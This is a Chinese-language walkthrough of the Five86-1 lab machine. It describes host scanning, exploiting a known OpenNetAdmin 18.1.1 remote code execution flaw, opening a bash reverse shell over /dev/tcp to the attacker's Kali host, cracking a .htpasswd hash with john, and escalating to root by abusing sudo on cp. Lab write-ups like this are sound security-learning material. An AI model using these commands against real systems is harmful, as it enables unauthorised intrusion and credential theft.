## Five86-1 : Walkthrough

### 主机识别

`nmap -sn 192.168.1.1/24`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.108` |
| Kali          | `192.168.1.105` |
| Five86-1      | `192.168.1.107` |

### 扫描端口和版本信息

`nmap -A 192.168.1.107`



### 访问Web并确定web应用

根据 Nmap 扫描结果可知，根目录存在 **robots.txt** ，访问 */ona* 子目录





找到 Web 应用是 **OpenNetAdmin v18.1.1**，进行 OSINT



看来该 Web 应用存在 **RCE** ，这下 *getshell* 就变得简单了。我使用 GitHub 的 [exploit](https://github.com/amriunix/ona-rce)



### 提权

与虚拟机建立 bash 连接，以便执行更多程序，执行命令 `bash -c 'bash -i >& /dev/tcp/192.168.1.105/4466 0>&1'`

Kali 监听 **4466** 端口



并在 Kali 上下载 *LinEnum.sh* 脚本到 `/tmp` 目录下运行





对于 `/etc/passwd` 我们没有写权限，因此之前惯用的方法失效了，不过根据 `/var/www/.htpasswd`  提供的信息可以暴力破解 hash 密码。不过在此之前就是制作字典



将用户名和密码复制粘贴到 *hash.txt* 文件中，使用 `john` 命令工具进行字典爆破

`douglas:$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1`



至此我们得到用户名 *douglas* 的账户密码：`fatherrrrr`



经过许久的探索，终于找到一条重要信息：*douglas* 用户可以无需密码运行 *jen* 账户的 `/bin/cp` 命令。接下来我尝试复制信息到 `/etc/passwd` 文件失败。嗯~，在这卡了一段时间，后来通过网上找到一种方法：找  *jen* 用户所属的文件

`find / -type f -user jen 2>/dev/null`

我们看到 *jen* 用户有一条 mail 信息（ `/var/mail/jen` ），使用 `/bin/cp` 命令将邮件信息复制出来

> 直接将 `/var/mail/jen` 复制出来不能读，可以通过在 `/tmp` 中新建文本文件，并修改权限后将复制的出来的内容替换进去



得到 *moss* 用户的密码：`Fire!Fire!`



在用户目录下，存在一个游戏目录，我们运行它就可以得到 *root* 权限了



### 总结

在进入 **OpenNetAdmin** 面板后没有第一时间去找 Web 应用程序和版本，而是到处点点，查看功能等选项。甚至切换为 *admin* 用户（我也不知为啥一试 *admin:admin* 就登录了 ）。因此需要将确定运行的应用程序放在首位，根据应用程序和版本上网查询是否存在漏洞，其次才是详细查看程序功能点等，这样会节省一些时间